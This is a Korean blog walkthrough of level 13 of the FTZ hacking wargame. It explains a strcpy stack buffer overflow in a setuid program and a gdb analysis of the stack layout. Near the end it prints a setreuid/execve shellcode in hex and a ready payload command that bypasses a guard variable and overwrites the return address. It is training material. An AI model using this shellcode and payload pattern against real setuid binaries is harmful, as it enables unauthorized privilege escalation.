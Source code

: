 ```yaml
---
title: BOF/ ftz-level13
tags: ftz
---
```


13번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 13
**ID : level13**  
**PASSWD : have no clue**         

<br />
{% highlight C linenos %}  
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
buf에 argv[1]을 strcpy함수로 복사하는 소스로 i가 0x1234567이 아니면 프로그램이 종료된다.    
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 입력 데이터가 1024Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
level14의 권한으로 set-uid가 설정되어 있다.  
<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level13에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level13/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 sep에 1048Byte의 공간을 할당하는것을 알 수 있다.  
main+54 line을 보면 strcpy함수에 buf를 인자로 전달하기 위한 연산을 수행하고 있음을 알 수 있다.  
따라서 buf의 주소는 ebp-1048.  
main+69 line을 보면 ebp-12 를 0x1234567과 비교연산하고 있음을 알 수 있다.  
소스를 보면 i가 0x1234567과 비교연산 하고 있으므로 ebp-12는 i의 주소이다.  
<br />
ebp는 stack base pointer로 stack의 최하단을 가리키는 포인터로 스택이 소멸되기 전까지 값이 변하지 않는다.  
스택은 높은 주소에서 낮은 주소로 자라는 특성을 가지고 있으므로 ebp-1048이 ebp-12보다 상단에 위치함을 알 수 있다.  

buf와 i사이에 12Byte의 dummy가 있고, 스택에 할당된 총 공간이 1048Byte이므로 메모리 구조는 아래와 같다.  

**참고**  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.  


메모리구조|
---|
buffer(1024Byte)|
dummy(12Byte)|
i(4Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
![그림2](/assets/ftz/level13/2.PNG)  
쉘코드를 환경변수에 등록하고 환경변수의 주소를 ret에 덮는 방식으로 공격을 시도.  
또한 중간에 i의 값을 적절히 변조하여 프로그램 종료 조건을 우회  

<br />
![그림3](/assets/ftz/level13/3.PNG)  
환경변수의 주소를 얻기 위해 getenv명령을 통해 환경변수의 주소를 출력하는 소스를 작성한다.  

<br />
![그림4](/assets/ftz/level13/4.PNG)  
소스파일을 컴파일하고 실행하여 환경변수의 주소를 얻는다.  

<br />
![그림5](/assets/ftz/level13/5.PNG)  
ret에 접근하기 위해 ret전까지는 아무 값이나 채우고 ret에 환경변수의 주소를 little-endian방식으로 넣는다.  
하지만 i의 값이 0x1234567이 아니면 프로그램이 종료되는 조건이 있으므로 우회하기 위해 i의 위치에 1234567을 값으로 대입하고,  
ret에 접근하여 쉘코드의 주소를 대입한다.  

<br />

#### 페이로드
./attackme \`python -c "print 'A'\*1036 + '\x67\x45\x23\x01' + 'A'*12 + '\x15\xfc\xff\xbf'"`
